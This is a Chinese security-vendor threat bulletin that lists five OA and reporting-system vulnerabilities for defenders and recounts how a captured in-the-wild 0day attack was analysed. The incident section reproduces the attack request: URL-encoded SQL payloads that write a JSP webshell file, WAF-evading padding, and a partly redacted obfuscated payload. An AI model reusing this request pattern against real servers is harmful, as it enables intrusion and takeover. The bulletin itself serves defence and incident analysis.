 #  【8/2特辑】今日热点漏洞速速自查！   
安恒研究院  安恒信息CERT   2024-08-02 20:27  
  
<table><tbody style="max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;"><tr style="max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;"><td colspan="2" rowspan="1" width="100.0000%" style="padding:5px 10px;overflow-wrap:break-word !important;word-break:break-all;hyphens:auto;border-width:0px 0px 2px;border-style:solid;border-color:#3e3e3e #3e3e3e #0d50c7;max-width:100% !important;box-sizing:border-box;"><section style="margin:5px 0px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;"><section style="margin-top:0px;margin-right:0px;margin-bottom:unset;margin-left:0px;padding:0px 5px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;text-align:center;font-size:17px;color:#0d50c9;"><p><strong style="max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;">漏洞导览</strong></p></section></section></td></tr><tr style="max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;"><td colspan="2" rowspan="1" width="100.0000%" style="padding:5px 10px;overflow-wrap:break-word !important;word-break:break-all;hyphens:auto;border-width:0px 0px 1px;border-style:solid;border-color:#dddddd #dddddd #a0a0a0;max-width:100% !important;box-sizing:border-box;"><section style="margin:5px 0px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;"><section style="margin-top:0px;margin-right:0px;margin-bottom:unset;margin-left:0px;padding:0px 5px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;text-align:left;font-size:14px;"><p style="text-align:center;"><span style="max-width:100% !important;box-sizing:border-box !important;overflow-wrap:break-word !important;font-size:15px;">· EKing-管理易存在任意文件上传漏洞</span></p></section></section></td></tr><tr><td style="padding:5px 10px;overflow-wrap:break-word !important;word-break:break-all;hyphens:auto;border-width:1px 0px;border-right-style:solid;border-bottom-style:solid;border-color:#a0a0a0 #dddddd;max-width:100% !important;box-sizing:border-box;" rowspan="1" colspan="2"><section style="margin:5px 0px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;"><section style="margin-top:0px;margin-right:0px;margin-bottom:unset;margin-left:0px;padding:0px 5px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;text-align:left;font-size:14px;"><p style="text-align:center;"><span style="max-width:100% !important;box-sizing:border-box !important;overflow-wrap:break-word !important;font-size:15px;">· EKing-管理易存在任意文件上传漏洞</span></p></section></section></td></tr><tr><td style="padding:5px 10px;overflow-wrap:break-word !important;word-break:break-all;hyphens:auto;border-width:1px 0px;border-right-style:solid;border-bottom-style:solid;border-color:#a0a0a0 #dddddd;max-width:100% !important;box-sizing:border-box;" rowspan="1" colspan="2"><section style="margin:5px 0px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;"><section style="margin-top:0px;margin-right:0px;margin-bottom:unset;margin-left:0px;padding:0px 5px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;text-align:left;font-size:14px;"><p style="text-align:center;"><span style="max-width:100% !important;box-sizing:border-box !important;overflow-wrap:break-word !important;font-size:15px;">·<span style="max-width:100% !important;box-sizing:border-box !important;overflow-wrap:break-word !important;font-size:15px;"> <span style="max-width:100% !important;box-sizing:border-box !important;overflow-wrap:break-word !important;font-size:15px;">金和OA存在任意用户添加漏洞</span></span></span></p></section></section></td></tr><tr><td style="padding:5px 10px;overflow-wrap:break-word !important;word-break:break-all;hyphens:auto;border-width:1px 0px;border-right-style:solid;border-bottom-style:solid;border-color:#a0a0a0 #dddddd;max-width:100% !important;box-sizing:border-box;" rowspan="1" colspan="2"><section style="margin:5px 0px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;"><section style="margin-top:0px;margin-right:0px;margin-bottom:unset;margin-left:0px;padding:0px 5px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;text-align:left;font-size:14px;"><p style="text-align:center;"><span style="max-width:100% !important;box-sizing:border-box !important;overflow-wrap:break-word !important;font-size:15px;">· 九思OA存在任意文件上传漏洞</span></p></section></section></td></tr><tr><td style="padding:5px 10px;overflow-wrap:break-word !important;word-break:break-all;hyphens:auto;border-width:1px 0px;border-right-style:solid;border-bottom-style:solid;border-color:#a0a0a0 #dddddd;max-width:100% !important;box-sizing:border-box;" rowspan="1" colspan="2"><section style="margin:5px 0px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;"><section style="margin-top:0px;margin-right:0px;margin-bottom:unset;margin-left:0px;padding:0px 5px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;text-align:left;font-size:14px;"><p style="text-align:center;"><span style="max-width:100% !important;box-sizing:border-box !important;overflow-wrap:break-word !important;font-size:15px;">·<span style="max-width:100% !important;box-sizing:border-box !important;overflow-wrap:break-word !important;font-size:15px;"> <span style="max-width:100% !important;box-sizing:border-box !important;overflow-wrap:break-word !important;font-size:15px;">方正全媒体采编系统存在任意文件读取漏洞</span></span></span></p></section></section></td></tr></tbody></table>  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/AvAjnOiazvnfZEUxgyAnMDKt4rLRpiaQ9VibuicNrGUMIC67XMCibeiabPzicYT7zoUn8icoYZc60qibBnqWFvQ6ZiaLfL8g/640?wx_fmt=jpeg&from=appmsg&wx_ "")  
  
  
**漏洞概况**  
  
  
在当前网络攻防演练中，  
安恒信息  
CERT正紧密关注近期曝光的安全漏洞，持续进行监测和深入梳理。我们将对监测到的每一个漏洞进行深入分析和评估，为蓝队（防守方）输出漏洞清单。这份清单旨在帮助蓝队在攻防演练期间进行自检，并采取必要的措施来强化防护。  
  
**1、EKing-管理易存在任意文件上传漏洞（安恒CERT编号：WM-202408-000008）**  
  
**漏洞详情：**  
  
EKing-管理易某接口处存在文件上传漏洞，未经身份验证的远程攻击者可利用此漏洞上传任意文件，在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。  
  
**产品支持情况**：  
  
AiLPHA大数据平台、APT攻击预警平台、明鉴漏洞扫描系统、WAF、玄武盾已支持  
  
**2、EKing-管理易存在任意文件上传漏洞（安恒CERT编号：WM-202408-000009）**  
  
**漏洞详情：**  
  
EKing-管理易某接口处存在文件上传漏洞，未经身份验证的远程攻击者可利用此漏洞上传任意文件，在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。  
  
**产品支持情况**：  
  
AiLPHA大数据平台、APT攻击预警平台、明鉴漏洞扫描系统、WAF、玄武盾已支持  
  
**3、金和OA存在任意用户添加漏洞（安恒CERT编号：WM-202408-000011）**  
  
**漏洞详情：**  
  
攻击者可以构造恶意数据包来添加任意用户，最终越权登录账号并可能进一步实现远程代码执行。  
  
**产品支持情况**：  
  
明鉴漏洞扫描系统已支持  
  
**4、九思OA存在任意文件上传漏洞（安恒CERT编号：WM-202408-000014）**  
  
**漏洞详情：**  
  
攻击者能够上传恶意文件至服务器，从而执行任意代码或篡改网站内容。  
  
**产品支持情况**：  
  
AiLPHA大数据平台、APT攻击预警平台、明鉴漏洞扫描系统、WAF、玄武盾已支持  
  
**5、方正全媒体采编系统任意文件读取漏洞（安恒CERT编号：WM-202408-000015）**  
  
**漏洞详情：**  
  
攻击者可以利用该漏洞读取服务器上存储的敏感信息，可能利用漏洞进一步渗透系统。  
  
**产品支持情况**：  
  
AiLPHA大数据平台、APT攻击预警平台、明鉴漏洞扫描系统、WAF、玄武盾已支持  
  
**恒脑x漏洞分析**  
  
  
攻防演练正在如火如荼地进行着。所有参与者们紧张而专注，仿佛整个战场都笼罩在紧张的氛围中。突然间，前方传来了一则关键情报：似乎已经捕获到了某个系统的高危漏洞！这个消息迅速传遍演练现场，激起了一阵骚动和好奇。  
  
漏洞的样本迅速被传送到了安恒研究院，专家们开始了紧张而密集的分析工作。经过一番深入研究后，他们的猜测得到了证实：**这是一个**  
**在野0day漏洞。**  
  
那么，这个漏洞是如何被捕获到的呢？接下来，让我们一起来揭开这个谜团的真相。  
  
**事件回溯**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JAzzLj4nXeuWiatf8UKibcCacJte7CCB7UASym0gIt1IBto3A1oaYSqxA7qUvVnN3uTpVVqTpVJ9J07icr0OnO5zw/640?wx_fmt=png&from=appmsg&wx_ "")  
  
  
  
当日，一线同事突然发现了异常的攻击流量，经过  
**恒脑x态感平台**  
的检索，  
现有的规则无法完全匹配到这种流量的信息，确定这是外部攻击者利用web漏洞展开的攻击。  
  
面对这一情况，一线同事迅速采取行动，立即提取了相关的攻击流量，并借助  
**恒脑智能体**  
进行进一步深入的分析和评估。  
  
这些流量的细节如下：  
  
**请求报文**  
```
GET /webroot/decision/xxxx/xxxxxxServer?test=<超长字符串>&n=<混淆代码>${__fr_locale__=sql('FRDemo',DECODE('%ef%bb%bf%61%74%74%61%63%68%0c%64%61%74%61%62%61%73%65%20%27%2e%2e%2f%77%65%62%61%70%70%73%2f%77%65%62%72%6f%6f%74%2f%70%77%6e%2e%6a%73%70%27%20%61%73%20%27%74%31%36%32%36%35%39%34%27%3b'),1,1)}${__fr_locale__=sql('FRDemo',DECODE('%ef%bb%bf%63%72%65%61%74%65%0C%74%61%62%6C%65%20%74%31%36%32%36%35%39%34%2E%74%74%28%64%61%74%61%7A%20%74%65%78%74%29%3B'),1,1)}${__fr_locale__=sql('FRDemo',DECODE('<混淆代码>'),1,1)} HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Connection: close
Cache-Control: max-age=0
```  
  
**响应报文**  
```
HTTP/1.1 302 
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: object-src 'self'
Cache-Control: no-cache
Pragma: no-cache
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Location: /webroot/decision/xxxx/xxxxxxServer?test=<超长字符串>&n=truetruetrue
Content-Length: 0
Date: Tue, 23 Jul 2024 07:54:02 GMT
Connection: close
```  
  
可以观察  
到，该请求包利用了超长字符填充尝试绕过WAF，并且包含了一段经过混淆的payload。现在的  
问题是，  
**恒脑智能体**  
是否能够成功解析出其中的内容？  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JAzzLj4nXeuWiatf8UKibcCacJte7CCB7Up8hhUNQHBELh0aXYTtje37g5KDdRlR23O4KLiaK07p5rQkrzglaM7HA/640?wx_fmt=png&from=appmsg&wx_ "")  
  
**恒脑智能体**  
通过分点论述的方法清晰地解释了问题，并提供了临时的漏洞解决方案。随后，通过  
**恒脑x策**  
**略库**快速检索了该漏洞的利用情况，结果显示这是一个未知的web漏洞。  
  
面对这一发现，一线同事立刻将漏洞信息上传至云端，交由安恒研究院进一步深入分析。最终确认，该漏洞是影响国产某知名报表系统的在野0day漏洞，并迅速制定了产品漏洞解决方案，以便快速响应。  
  
  
在实际的攻防场景中，恒脑通过持续采集前端流量，并结合24小时不间断的自动分析和实时矫偏技术，能够及时发现并响应漏洞威胁，从而确保网络安全高效运转。无论是面对传统漏洞还是全新的未知威胁，恒脑展现出了卓越的应变能力和防御效果。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvnfZEUxgyAnMDKt4rLRpiaQ9V1919SICksFjblTT8VibIKoIdgCkBe6S5LTrA3Uc6J7EPkx5VfVR09Ww/640?wx_fmt=png&from=appmsg&wx_ "")  
  
**关于我们**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvnfZEUxgyAnMDKt4rLRpiaQ9V1919SICksFjblTT8VibIKoIdgCkBe6S5LTrA3Uc6J7EPkx5VfVR09Ww/640?wx_fmt=png&from=appmsg&wx_ "")  
  
  
安恒信息应急响应中心（CERT）是专注于对全网重要网络安全漏洞、安全事件等威胁情报进行实时主动发现、快速预警、联动响应的安全应急协调中心。  
  
中心成员由丰富攻防经验的资深安全技术专家组成，联动安恒威胁情报中心，共同针对最新威胁情报主动发现，重大安全漏洞和安全事件进行深度挖掘、分析、溯源，并结合自主研发的网络空间测绘系统-「全球网络空间超级雷达」梳理全网受影响程度。  
  
第一时间通过多渠道对客户进行安全预警通知，并向国家有关部门通报，同时在有关部门的指导下，对影响面极广的漏洞对外发布安全预警和应急措施建议，为安全中国，营造健康、安全的数字化经济环境助力。  
  
**如有漏洞相关需求支持请联系400-6059-110获取相关能力支撑。**  
  
  
**往/期/回/顾**  
  
  
  
  
[【8/1特辑】今日热点漏洞速递](https://mp.weixin.qq.com/s?__biz=MzUzOTE2OTM5Mg==&mid=2247489791&idx=1&sn=f1e4fd6ee4b955bb5e6558f3fabaa483&chksm=facddfe0cdba56f6e77376da0d273ac3ac9410035d625e62b91763e3ddd018008603a11853c1&token=1151757703&lang=zh_CN&scene=21#wechat_redirect)  
  
  
[【7/31特辑，3个！】注意看，这个男人叫小帅](https://mp.weixin.qq.com/s?__biz=MzUzOTE2OTM5Mg==&mid=2247489783&idx=1&sn=6853f5caf315f72549a1c08a4054d0f4&chksm=facddfe8cdba56fe5f1370e06a611ce1b5d3454b7841be20cfb61515bc4f05e251661b09643c&token=1151757703&lang=zh_CN&scene=21#wechat_redirect)  
  
  
[【7/30特辑，hw日记】逃过一劫，竟是因为......](https://mp.weixin.qq.com/s?__biz=MzUzOTE2OTM5Mg==&mid=2247489759&idx=1&sn=1680e92d6e6df8df50bd78f3f5d0a8b8&chksm=facddfc0cdba56d6a02098268c4ea4d90bf616146437826ba37529d2427c5e3377458fb4a80d&token=1151757703&lang=zh_CN&scene=21#wechat_redirect)  
  
  
